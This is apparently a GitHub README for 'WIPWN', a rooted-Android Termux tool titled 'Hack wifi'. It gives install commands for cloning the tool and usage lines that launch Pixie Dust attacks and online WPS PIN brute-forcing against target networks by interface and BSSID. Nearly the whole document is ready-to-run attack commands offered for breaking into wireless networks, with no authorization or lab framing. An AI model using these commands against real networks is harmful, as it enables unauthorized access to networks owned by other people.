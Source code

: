 # WIPWN

### Hack wifi using Termux (rooted)
    
- [Requirements]
  - [Python](https://www.python.org)
  - [Pixiewps](https://www.kali.org/tools/pixiewps/)
  - [Wpa-supplicant](https://wiki.archlinux.org/title/wpa_supplicant)
 
### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
git clone https://github.com/anbuinfosec/wipwn
cd wipwn
chmod +x main.py
```

#### Help : ```sudo python main --help```
#### Example : ```sudo python main.py -i wlan0 -K```

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- ```sudo python main.py -i wlan0 -K```
- ```bash wipwn.sh```
- - Start Pixie Dust attack on a specified BSSID:
`sudo python main.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python main.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

---

### ❤️ Thanks for stars and forks

